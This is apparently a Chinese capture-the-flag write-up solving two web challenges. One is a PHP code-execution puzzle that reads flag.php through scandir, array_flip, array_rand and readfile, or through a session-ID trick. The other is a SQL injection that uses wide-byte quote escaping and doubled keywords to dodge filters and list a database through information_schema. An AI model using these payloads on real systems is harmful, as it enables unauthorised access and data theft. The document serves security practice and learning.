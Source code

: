 

`var_dump(scandir(chr(time())));`



` array(5) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(4) ".git" [3]=> string(8) "flag.php" [4]=> string(9) "index.php" } `

chr,random_bytes

翻数组相关的函数找到array_rand,但是遗憾的是返回的是键名,如果我们能交换键名和值就可以拿到flag.php了,再找一找发现array_filp

最后的payload

`var_dump(readfile(array_rand(array_flip(scandir(chr(time()))))));`

### 解法二

`readfile(session_id(session_start()))`

然后`PHPSESSID=flag.php`读到flag







##  BabySqliv2.0

提到中文,宽字节注入绕过引号

过滤select,union,where等

`a%bf%5c%27+ununionion+seselectlect+1,char(97,100,109,105,110),1%23`

回显密码

`a%bf%5c%27+ununionion+seselectlect+1,char(97,100,109,105,110),(SELselectECT+group_concat(schema_name)+FROM+information_schema.schemata)%23`



数据库:`information_schema,web_sqli`

`a%bf%5c%27+ununionion+seselectlect+1,char(97,100,109,105,110),(SELselectECT+group_concat(table_name)+FROM+information_schema.tables+WHEwhereRE+TABLE_SCHEMA=database())%23`

表:`f14g,user`

`a%bf%5c%27+ununionion+seselectlect+1,char(97,100,109,105,110),(SELselectECT+group_concat(column_name)+FROM+information_schema.columns+WHwhereERE+table_name=char(102,49,52,103))%23`



列:`b80bb7740288fda1f201890375a60c8f,327a6c4304ad5938eaf0efb6cc3e53dc`



读取flag,但是有长度限制

最后得到抖肩舞+flag

GXY{g0Od_job1im_so_vegetable}

